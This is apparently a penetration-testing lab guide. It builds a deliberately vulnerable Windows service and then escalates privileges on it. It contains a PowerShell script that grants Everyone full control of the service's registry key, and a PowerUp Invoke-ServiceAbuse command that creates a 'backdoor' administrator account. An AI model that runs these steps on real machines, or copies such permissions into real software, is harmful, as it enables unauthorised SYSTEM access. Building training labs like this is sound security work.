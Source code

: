 # Write A PS Script That Installs An Insecure Windows Service
An insecure Windows service is one that can be easily exploited by a Penetration Tester. These services often lack proper security protections and can be compromised through vulnerabilities in the code or weak passwords.

## References
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by HarmJ0y
- [How to Set Permission on a Service Using Subinacl](http://www.waynezim.com/2010/02/how-to-set-permission-on-a-service-using-subinacl/) by Wayne Zimmerman
- [Privilege Escalation with Insecure Windows Service Permissions](https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107) by Nairuz Abulhul on Medium
- [Digging Deeper into Vulnerable Windows Services](https://www.blackhillsinfosec.com/digging-deeper-vulnerable-windows-services/) by Brian Fehrman on BlackHillsInfoSec
- [Windows Privilege Escalation](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/infrastructure/privesc_windows.md#Insecure-Service-Executables) by 0xJs on GitHub
- [Windows Privilege Escalation - Exploiting Insecure Service Permissions](https://www.youtube.com/watch?app=desktop&v=WCnuu9fF-pk) by HackerSploit on YouTube
- [PowerUp Cheatsheet](https://blog.certcube.com/powerup-cheatsheet/) by Mr X on CertCube Labs

## Tasks
- Research how to set up a Windows service with insecure configurations, such as weak permissions or allowing modifications by EVERYONE
- Create a PowerShell script that automates the creation of the insecure Windows service, incorporating the vulnerable configurations identified in the research
- Execute your PowerShell script to install the insecure Windows service on the target system
- Use PowerUp.ps1 to exploit the insecure Windows service that your script installed

## Recommended Approach
- Search the following keywords on Google: vulnerable windows service binpath
- Research how to modify the permissions of a Windows Service using SUBINACL.exe
- Research how to create a new Windows Service using sc.exe
- Create a vulnerable Windows Service that any user, regardless of their permission levels, can modify
- Use PowerUp.ps1 to exploit the vulnerable Windows Service and obtain unauthorised SYSTEM privileges on the machine

## Solutions With Scripts
1. Create a dummy malware executable, save the following C++ code as `dummymalware.cpp` and compile it into an executable using compilers like Dev-C++
   ```
   #include <windows.h>
   
   int main()
   {
       MessageBox(NULL, "I'm a Dummy Malware", "Alert", MB_OK | MB_ICONEXCLAMATION);
       return 0;
   }
   ```
2. Save the following PowerShell script as `insecureservice.ps1`. It will create a service called `InsecureService` that runs `dummymalware.exe`, and modifies service permissions so Everyone can modify the service, making it insecure
   ```
   # Define service variables
   $serviceName = "InsecureService"
   $serviceDisplayName = "Insecure Windows Service"
   $serviceDescription = "A vulnerable service with insecure permissions."
   $servicePath = "C:\Windows\System32\dummymalware.exe"  # You can specify any executable
   $serviceStartMode = "Automatic"
   
   # Step 1: Create the service
   New-Service -Name $serviceName -BinaryPathName $servicePath -DisplayName $serviceDisplayName -Description $serviceDescription -StartupType $serviceStartMode
   
   # Step 2: Modify registry permissions to make it insecure
   $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"
   $rule = New-Object System.Security.AccessControl.RegistryAccessRule("Everyone", "FullControl", "Allow")
   $acl.SetAccessRule($rule)
   Set-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName" $acl
   
   Write-Host "$serviceName has been created with insecure permissions!"
   ```
3. Open PowerShell as Administrator, run `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then navigate to the folder where insecure service is stored and run `.\insecureservice.ps1`
4. To identify the insecure service with PowerUp.ps1, open PowerShell as Administrator, navigate to where PowerUp.ps1 is stored and run `Import-Module .\PowerUp.ps1`.
   To check for services with weak permissions, run
   ```
   Get-UnquotedService
   ```
   To check for services with writable executables, run
   ```
   Get-ModifiableServiceFile
   ```
   To check for service permissions, run
   ```
   Get-ServiceDetail -Name "InsecureService"
   ```
5. To exploit the insecure service with PowerUp.ps1, run
   ```
   Invoke-ServiceAbuse -Name InsecureService -UserName backdoor -Password password -LocalGroup "Administrators"
   ```
6. To delete the insecure service in PowerShell, use
   ```
   sc.exe delete InsecureService
   ```
7. 
